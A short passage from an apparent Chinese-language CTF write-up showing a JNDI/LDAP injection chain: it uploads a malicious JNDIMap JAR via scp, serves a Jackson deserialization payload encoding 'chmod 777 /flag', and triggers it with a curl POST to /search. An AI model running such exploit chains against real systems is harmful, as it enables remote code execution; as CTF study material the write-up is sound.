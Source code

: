 ![image-20250223222928567](../assets/image-20250223222928567.png)

上传恶意 JAR 包

```
scp -i /root/.ssh/id_rsa -P 31266 ./JNDIMap-0.0.1.jar mysid@node1.hgame.vidar.club:/tmp
```

```
/usr/local/openjdk-8/bin/java -jar /tmp/JNDIMap-0.0.1.jar -i 127.0.0.1 -l 389 -u "/Deserialize/Jackson/Command/Y2htb2QgNzc3IC9mbGFn"
```

![image-20250223224744145](../assets/image-20250223224744145.png)

触发漏洞

```
curl -X POST -d "baseDN=a/b&filter=a" http://127.0.0.1:8080/search
```

![image-20250223224705047](../assets/image-20250223224705047.png)

![image-20250223224810443](../assets/image-20250223224810443.png)

成功执行

![image-20250223224832052](../assets/image-20250223224832052.png)

